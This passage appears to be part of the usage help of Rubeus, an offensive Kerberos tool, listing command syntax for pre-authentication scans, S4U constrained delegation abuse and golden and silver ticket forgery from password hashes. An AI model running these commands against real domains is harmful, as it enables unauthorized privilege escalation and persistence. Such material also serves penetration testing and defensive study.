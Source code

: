         Perform a scan for account that do not require pre-authentication:
            Rubeus.exe preauthscan /users:C:\temp\users.txt [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/proxyurl:https://KDC_PROXY/kdcproxy]


     Constrained delegation abuse:

        Perform S4U constrained delegation abuse:
            Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec] [/self] [/proxyurl:https://KDC_PROXY/kdcproxy] [/createnetonly:C:\Windows\System32\cmd.exe] [/show]
            Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec] [/self] [/bronzebit] [/nopac] [/proxyurl:https://KDC_PROXY/kdcproxy] [/createnetonly:C:\Windows\System32\cmd.exe] [/show]

        Perform S4U constrained delegation abuse across domains:
            Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER /targetdomain:DOMAIN.LOCAL /targetdc:DC.DOMAIN.LOCAL [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/self] [/nopac] [/createnetonly:C:\Windows\System32\cmd.exe] [/show]


     Ticket Forgery:

        Forge a golden ticket using LDAP to gather the relevent information:
            Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> /ldap [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a golden ticket using LDAP to gather the relevent information but explicitly overriding some values:
            Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> /ldap [/dc:DOMAIN_CONTROLLER] [/domain:DOMAIN] [/netbios:NETBIOS_DOMAIN] [/sid:DOMAIN_SID] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/oldpac] [/extendedupndns] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a golden ticket, setting values explicitly:
            Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </domain:DOMAIN> </sid:DOMAIN_SID> [/dc:DOMAIN_CONTROLLER] [/netbios:NETBIOS_DOMAIN] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/oldpac] [/extendedupndns] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]
